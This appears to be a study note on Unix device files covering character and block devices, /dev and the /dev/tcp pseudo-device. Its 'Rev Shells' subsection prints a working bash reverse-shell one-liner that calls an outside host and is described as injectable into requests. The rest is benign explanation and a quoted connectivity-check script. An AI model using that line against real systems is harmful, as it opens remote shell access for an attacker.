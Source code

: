 
# Unix Device Files
A device file in Unix is a file which is an *interface to a device driver*. It appears in the filesystem the same as other regular files but is special in that it *allows an application to interact with a device*. These files can also be referred to as 'device nodes'. Other [operating systems](computers/concepts/operating-system.md) employ similar interfaces, but this will focus on Unix specifically.
## Unix Device Nodes
In Unix, device nodes/files correspond to resources allocated by the [kernel](computers/concepts/kernel.md). In Unix, the resources are identified using two different numbers a *minor number*, and a *major number*. In general, the major number is meant to identify  the device driver and the minor number is meant to identify the device the driver controls.

The computer treats these nodes like standard system files and *interacts with them using system calls*. There are two different types of device files: Character devices, and Block devices. Unfortunately, the names for both are misleading due to some historical reason.
### Character Device Files
To avoid confusion, these devices are also called *'Raw Devices'*. They provide *direct access* to the hardware device. Contrary to the name, character devices *do not necessarily allow programs to read or write to these devices one character at a time*. Instead, it is dependent on the device to decide how it can be read or written to.

In general, character devices are supposed to be devices which *access data in character units.* Some examples of character devices include keyboards, modems, sound cards, etc..
### Block Device Files
Block devices are different from character ones because they allow *reading and writing a block of any size to the device*. This means that a single character can be read or written to a block device. In general, block devices read and write data in *chunks or blocks*. Some examples include CDROM drives, flash drives, and hard drives.

Because block devices *are buffered* a programmer doesn't know how long it will take for the data being written to pass from the kernel's buffer to the actual device. They also can't be sure in what order two separate writes will reach the device.
## `/dev`
The `/dev` directory contains entries for *physical devices* which may or may not represent actual hardware present on the system (device files). Among the devices represented here, you can find the loopback directory (for [loopback](../../../networking/routing/loopback.md) devices) `/dev/loop0`, CD drives (`/dev/hdc`), hard drive partitions (`/dev/sda1`), [UDP](../../../networking/protocols/UDP.md) ports `/dev/udp`,  TCP ports `/dev/tcp`, etc. as well as specialized pseudo-devices like `/dev/null`, `/dev/zero`, and `/dev/urandom`.  

Some devices mounted here are *virtual* like `/dev/null`,  `/dev/zero`,  and `/dev/urandom`. This means they're not actual physical devices and *only exist in software*. 
### `/dev/tcp`
`/dev/tcp/[host]/[port]` is a *psuedo device file* and writing to it will *open a [TCP](../../../networking/protocols/TCP.md) connection* to the referenced host and port number. The `/[host]` and `/[port]` "directories" correspond to the *destination*, not the address and port number of the local machine making the connection.
#### Rev Shells
An example of how `/dev/tcp` can be used in scripts is this one-liner [bash](../../../coding/languages/bash.md) script which can be injected into a request to open a [rev-shell](../../../cybersecurity/TTPs/exploitation/rev-shell.md):
```bash
 bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```
#### Troubleshooting
Here is another example script for using `/dev/tcp` to troubleshoot an internet connection by sending an HTTP request through port 80 to the destination host.
```bash 
#!/bin/bash
# dev-tcp.sh: /dev/tcp redirection to check Internet connection.

# Script by Troy Engel.
# Used with permission.
 
TCP_HOST=news-15.net       # A known spam-friendly ISP.
TCP_PORT=80                # Port 80 is http.
  
# Try to connect. (Somewhat similar to a 'ping' . . .) 
echo "HEAD / HTTP/1.0" >/dev/tcp/${TCP_HOST}/${TCP_PORT}
MYEXIT=$?

: <<EXPLANATION
If bash was compiled with --enable-net-redirections, it has the capability of
using a special character device for both TCP and UDP redirections. These
redirections are used identically as STDIN/STDOUT/STDERR. The device entries
are 30,36 for /dev/tcp:

  mknod /dev/tcp c 30 36

>From the bash reference:
/dev/tcp/host/port
    If host is a valid hostname or Internet address, and port is an integer
port number or service name, Bash attempts to open a TCP connection to the
corresponding socket.
EXPLANATION

   
if [ "X$MYEXIT" = "X0" ]; then
  echo "Connection successful. Exit code: $MYEXIT"
else
  echo "Connection unsuccessful. Exit code: $MYEXIT"
fi

exit $MYEXIT
```
> [Advanced Bash Scripting Guide: 29.1. /dev](https://tldp.org/LDP/abs/html/devref1.html)

> [!Resources]
> - [Wikipedia: Device File](https://en.wikipedia.org/wiki/Device_file)
> - [Advanced Bash Scripting Guide: 29.1. /dev](https://tldp.org/LDP/abs/html/devref1.html)